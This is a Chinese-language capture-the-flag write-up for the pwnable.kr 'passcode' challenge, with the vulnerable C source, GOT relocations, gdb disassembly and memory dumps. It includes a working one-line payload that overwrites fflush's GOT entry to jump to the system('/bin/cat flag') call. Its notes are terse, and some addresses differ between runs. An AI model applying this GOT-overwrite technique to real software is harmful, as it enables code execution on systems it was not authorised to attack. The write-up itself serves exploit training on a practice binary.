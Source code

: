 ```yaml
---
layout: default
title: pwnable_passout_code
parent: Pentest
nav_order: 1
---
```


# pwnable 'pass'code

Source :
- [pwnable.kr](http://pwnable.kr/play.php)
- [gcc stack protection](https://www.ibm.com/developerworks/cn/linux/l-cn-gccstack/)
- [gcc stack protection2](https://kknews.cc/zh-tw/tech/38m3eo3.html)
- [linux got](http://blog.csdn.net/linyt/article/details/51635768)
- [linux got](http://www.freebuf.com/articles/system/135685.html)
---
## 程式原始碼
``` c
#include <stdio.h>
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```
---
## solution
### 查got表
```
passcode@ubuntu:~$ readelf  -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0
Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
##使用這個位址
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```
### disas login
- 查完之後會發現scanf前的地址-0x10(%ebp) 剛好在'a'*96的後四位...
```gdb
gef➤  x/x $ebp -0x10
0xffffcff8:	0x0804a010
```
- 將位址替換成fflush
- scanf %d 0x080485e3(134514147),此處使很關鍵的地方表示fflush會被替換成
```0x080485e3 <+127>:	movl   $0x80487af,(%esp)```
- '\n' 應該表示是字串結尾
```
0xffffcff0:	0x61616161	0x61616161	0x0804a010	0x4ff54700
0xffffd000:	0x08048800	0xffffd0c4	0xffffd018	0x080486e0
0xffffd010:	0xf7fb23dc	0xffffd030	0x00000000	0xf7e18637
0xffffd020:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7e18637
0xffffd030:	0x00000001	0xffffd0c4	0xffffd0cc	0x00000000
0xffffd040:	0x00000000	0x00000000	0xf7fb2000	0xf7ffdc04
0xffffd050:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd060:	0x00000000	0xab31c77d	0x979a496d	0x00000000
```
``` gdb
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
   0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
   0x08048598 <+52>:	mov    $0x8048786,%eax
   0x0804859d <+57>:	mov    %eax,(%esp)
   0x080485a0 <+60>:	call   0x8048420 <printf@plt>
   0x080485a5 <+65>:	mov    $0x8048783,%eax
   0x080485aa <+70>:	mov    -0xc(%ebp),%edx
   0x080485ad <+73>:	mov    %edx,0x4(%esp)
   0x080485b1 <+77>:	mov    %eax,(%esp)
   0x080485b4 <+80>:	call   0x80484a0 
   0x080485b9 <+85>:	movl   $0x8048799,(%esp)
   0x080485c0 <+92>:	call   0x8048450 <puts@plt>
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
##調用system
## 0x080485e3 <+127>:	movl   $0x80487af,(%esp)
## 0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
End of assembler dump.
```
``` python
print int("0x080485e3", 0)
134514147
python -c "print ('a'*96+'\x04\xa0\x04\x08'+'\n'+'134514147\n')" | ./passcode
 ```
 ### localtest
 ```gdb
     0x80485bc <login+33>       call   0x8048480 <__isoc99_scanf@plt>
    0x80485c1 <login+38>       add    esp, 0x10
    0x80485c4 <login+41>       mov    eax, ds:0x804a040
    0x80485c9 <login+46>       sub    esp, 0xc
    0x80485cc <login+49>       push   eax
 →  0x80485cd <login+50>       call   0x8048420 <fflush@plt> ＃call 0x080485e3
   ↳   0x8048420 <fflush@plt+0>   jmp    DWORD PTR ds:0x804a010
       0x8048426 <fflush@plt+6>   push   0x8
       0x804842b <fflush@plt+11>  jmp    0x8048400
       0x8048430 <__stack_chk_fail@plt+0> jmp    DWORD PTR ds:0x804a014
       0x8048436 <__stack_chk_fail@plt+6> push   0x10
       0x804843b <__stack_chk_fail@plt+11> jmp    0x8048400
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ threads ]────
[#0] Id 1, Name: "passcode", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
[#0] 0x80485cd → Name: login()
[#1] 0x80486e0 → Name: main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  n
[New process 25845]
process 25845 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "login" not defined.
[New process 25846]
process 25846 is executing new program: /bin/cat
lfagqqqqqq!!!!\n
[Inferior 3 (process 25846) exited normally]
enter passcode1 : Now I can safely trust you that you have credential :)
[*] No debugging session active
gef➤  

 ```